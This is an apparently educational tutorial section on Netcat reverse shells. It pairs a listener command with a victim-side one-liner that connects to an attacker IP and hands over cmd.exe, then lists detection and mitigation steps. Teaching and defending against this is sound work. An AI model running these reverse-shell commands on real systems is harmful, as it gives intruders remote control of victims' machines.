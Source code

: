 ## 7. Configuring a Linux Reverse Shell

### Understanding and Mitigating Reverse Shells

#### What is a Reverse Shell?
- A reverse shell allows an attacker to gain remote access to a victim's machine by establishing a connection from the victim to the attacker's system.
- The attacker sets up a listener on their machine, usually on a common port (like port 80), to receive incoming connections.

#### Setting Up a Reverse Shell with Netcat
1. **Attacker's Side (Listener Setup)**:
   - On the attacker's Linux machine, you can set up a listener using Netcat:
     ```bash
     sudo nc -l -v -p 80
     ```
   - This command makes the attacker’s machine listen on all IP addresses (`0.0.0.0`) on port 80 for incoming connections.

2. **Victim's Side (Connecting to Listener)**:
   - On the victim’s Windows machine, use Netcat to connect back to the attacker:
     ```powershell
     ./nc64 192.168.2.156 80 -e cmd.exe
     ```
   - This command tells Netcat to connect to the attacker’s IP address and execute a command prompt (`cmd.exe`) that sends input and output over the established connection.

#### Behavior of a Reverse Shell
- From the victim’s perspective, the outgoing connection looks like normal web traffic, which is often overlooked by firewalls and security systems.
- The attacker gains control of the victim's command prompt, allowing them to run commands as if they were sitting in front of the victim's computer.

#### Security Implications
- **Detection Challenges**: Since the connection appears as outbound HTTP traffic, it may evade detection unless specific monitoring tools are in place.
- **Potential Actions**: The attacker can execute commands, access files, and manipulate the victim’s system remotely.

#### Mitigation Strategies
1. **Network Monitoring**:
   - Deploy threat-hunting tools that can analyze outgoing traffic patterns. Look for unusual connections, especially on common ports like 80.
   - Implement intrusion detection systems (IDS) to flag unexpected outbound connections.

2. **Endpoint Protection**:
   - Ensure all machines have up-to-date antivirus and anti-malware solutions that can detect suspicious activities, including the use of tools like Netcat.

3. **User Education**:
   - Train users to recognize phishing attempts and malicious links that could lead to the execution of reverse shells.
